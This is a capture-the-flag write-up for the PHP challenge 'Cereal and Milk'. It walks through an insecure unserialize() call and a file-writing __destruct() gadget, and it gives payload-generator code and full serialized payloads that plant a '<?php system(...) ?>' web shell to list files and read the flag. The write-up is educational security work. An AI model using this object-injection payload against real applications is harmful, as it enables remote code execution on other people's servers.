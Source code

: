 # Cereal and Milk

Thank you to `N1z0ku` and `NightWolf` (the author) for their hints :)

## The brief

```
What do you like for breakfast? Cereal and milk is my favorite.
Sometimes, it tastes a bit odd though.
```

## Looking at the source code

In `index.php`:
```php
<?php

include 'log.php';

class CerealAndMilk
{
    public $logs = "request-logs.txt";
    public $request = '';
    public $cereal = 'Captain Crunch';
    public $milk = '';
    

    public function processed_data($output)
    {
        echo "Deserilized data:<br> Coming soon.";
       # echo print_r($output);
        
    }

    public function cereal_and_milk()
    {
     echo $this->cereal . " is the best cereal btw.";   
    }

}

$input = $_POST['serdata'];
$output = unserialize($input);

$app = new CerealAndMilk;
$app -> cereal_and_milk($output);



?>
```
Our data is sent as post data, then deserialized and used as the new `CerealAndMilk` object. Alrigh, what about `log.php`:
```php
<?php

class log
{
    public function __destruct()
        {
            $request_log = fopen($this->logs , "a");
            fwrite($request_log, $this->request);
            fwrite($request_log, "\r\n");
            fclose($request_log);
        }
}

?>
```
the `log` has only a `__destruct()` function, which is called when an object is deserialized. What happens is, it opens the `logs` file that is provided in `append` mode and appends the `request` that was provided. </br>

So what do we actually have to do? Create a serialized object, input that and get code execution. Don't believe me? You'll see.

## Payload

The payload may be generated using php code:
```php
<?php

include 'log.php';

class CerealAndMilk
{
	public function __construct()
	{
		$this->logs = "pwn.php";
		$this->request = "<?php system('ls -l .') ?>";
		$this->cereal = "Frosties";
		$this->milk = "full";
	}

}

$cer = new CerealAndMilk();
echo serialize($cer);
echo "\n";
?>
```
But this payload doesn't work, how can we make it better? Well two things. I changed the `log.php` code and made sure for `fast deserialization` to happen, using arrays.</br>
`log.php`
```php
<?php

class log
{
	public function __construct()
    {
        $this->logs='pwn.php';
        $this->request='<?php system("ls -l ."); ?>';
    }

    public function __destruct()
        {
            $request_log = fopen($this->logs , "a");
            fwrite($request_log, $this->request);
            fwrite($request_log, "\r\n");
            fclose($request_log);
        }
}

?>
```
And the `payload.php` code:
```php
<?php
include 'log.php';

class CerealAndMilk
{

    public function __construct() 
    {
        $this->log[0] = new log();
        $this->cereal[0] = 'Frosties';
        $this->milk[0] = 'full';
        $this->log[1] = new log();
        $this->cereal[1] = 'Frosties';
        $this->milk[1] = 'full';
    }

}

$cer = new CerealAndMilk();
echo serialize($cer);
echo "\n";

?>
```
And the output:
```
O:13:"CerealAndMilk":3:{s:3:"log";a:2:{i:0;O:3:"log":2:{s:4:"logs";s:7:"pwn.php";s:7:"request";s:27:"<?php system("ls -l ."); ?>";}i:1;O:3:"log":2:{s:4:"logs";s:7:"pwn.php";s:7:"request";s:27:"<?php system("ls -l ."); ?>";}}s:6:"cereal";a:2:{i:0;s:8:"Frosties";i:1;s:8:"Frosties";}s:4:"milk";a:2:{i:0;s:4:"full";i:1;s:4:"full";}
```
Now another quirk, do not copy the last `}`. There should be only one at the end. Now to see if it works, input it and then navigate to `/pwn.php`:
</br>

![listing](./listing.png)

</br>

Great! That one directory looks strange, just change the `system()` command to `cat ndwbr7pVKNCrhs-CerealnMilk/flag.txt` and here we go!:
</br>

The payload `O:13:"CerealAndMilk":3:{s:3:"log";a:2:{i:0;O:3:"log":2:{s:4:"logs";s:7:"pwn.php";s:7:"request";s:59:"<?php system("cat ndwbr7pVKNCrhs-CerealnMilk/flag.txt"); ?>";}i:1;O:3:"log":2:{s:4:"logs";s:7:"pwn.php";s:7:"request";s:59:"<?php system("cat ndwbr7pVKNCrhs-CerealnMilk/flag.txt"); ?>";}}s:6:"cereal";a:2:{i:0;s:8:"Frosties";i:1;s:8:"Frosties";}s:4:"milk";a:2:{i:0;s:4:"full";i:1;s:4:"full";}`

</br>

![flag](./flag.png)

</br>

Amazing! We have the flag :)